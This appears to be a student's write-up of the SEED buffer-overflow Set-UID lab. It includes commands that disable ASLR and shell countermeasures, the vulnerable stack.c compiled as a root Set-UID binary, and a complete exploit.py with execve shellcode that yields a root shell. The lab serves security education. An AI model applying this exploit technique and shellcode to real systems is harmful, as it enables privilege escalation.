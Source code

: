 # Buffer Overflow Attack Lab (Set-UID Version)

## Environment Setup

Modern operating systems have implemented several security mechanisms to make the buffer-overflow attack difficult. 

Ubuntu and several other Linux-based systems uses address space randomization to randomize the starting address of heap and stack.  This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks.

This protection, can be disabled with the command:

```bash
 $ sudo sysctl -w kernel.randomize_va_space=0
 ```

In the recent versions of Ubuntu OS, the/bin/sh symbolic link points to the/bin/dash shell. The dash program, as well as bash, has implemented a security countermeasure that prevents itself from being executed in a Set-UID process. Basically, if they detect that they are executed in a Set-UID process, they will immediately change the effective user ID to the process’s real user ID, essentially dropping the privilege.

Since  our  victim  program  is a Set-UID program, we will link /bin/sh to another shell that does not have such a countermeasur using the following command:

```bash
 $ sudo ln -sf /bin/zsh /bin/sh
 ```

# Task 1

After, we compiled "call_shell.c" using "make", two executables where created one for 32 bits and another for 64 bits. When running them, both opened a new shell in the same directory that we ran the program.

![CreateShell](../docs/week5/log5task1.png)

# Task 2

In the "stack.c" file we have the following code:

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}
```

This program has a buffer-overflow vulnerability. It starts by opening a file "badfile" and reading 517 bytes to an array of chars called str. Then, it calls the bof function and uses "strcpy" to copy data from the array to a buffer of chars with size of 100 bytes. This process causes an overflow because "strcpy" does not check boundaries.

For the vulnerable program, we disabled StackGuard and protections against code execution invoked from the stack. Additionally, we changed the program's owner to root and activated Set-UID.

This can be done with the following commands:

````bash
 $ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
 $ sudo chown root stack
 $ sudo chmod 4755 stack
 ````

Because the compilation and setup commands are already included in Makefile, we just need to type "make".

![CreateShell](../docs/week5/log5task2.png)


#Task 3

When running GDB, we got the ebp value and the buffer's address with the following steps:

![Ebp_bufferaddr](../docs/week5/log5task3_1.png)

After knowing these values, we need to prepare the *badfile*, so the next step is to complete the *exploit.py* file with the values we got from GDB.

Because this is an Attack on 32-bit Program, in the shellcode variable we insert the 32-bit shellcode from the *call_shellcode.c* file.

![ShellValue](../docs/week5/log5task3_2.png)

Then, we need to set the start position to the end of the buffer. Since the buffer's length is 517, the position is:

![StartValue](../docs/week5/log5task3_3.png)

Furthermore, we now need to change the return address to one that will run our code. If the address points to any NOP's that come before the shellcode, it will run. So, we just need to add the *ebp* value to the *start* value.

![ReturnValue](../docs/week5/log5task3_4.png)

Finally, the only thing left to do before running our attack is to change the offset value, which can be done with the opeation *ebp - buffer + 4*

![OffsetValue](../docs/week5/log5task3_5.png)

After completing the python script, we end up with:

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload

start = 517-len(shellcode)         # Change this number 
content[start:start + len(shellcode)] = shellcode
# Decide the return address value 
# and put it somewhere in the payload

ret    = 0xffffcb28 + start           # Change this number 
offset = 0xffffcb28  - 0xffffcabc + 4 # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
 ```

 After running the script and creating the badfile, we just need to run *stack-L1*. This opens a shell and we can verify through the *whoami* command that we have a root shell:


![NewShell](../docs/week5/log5task3_6.png)

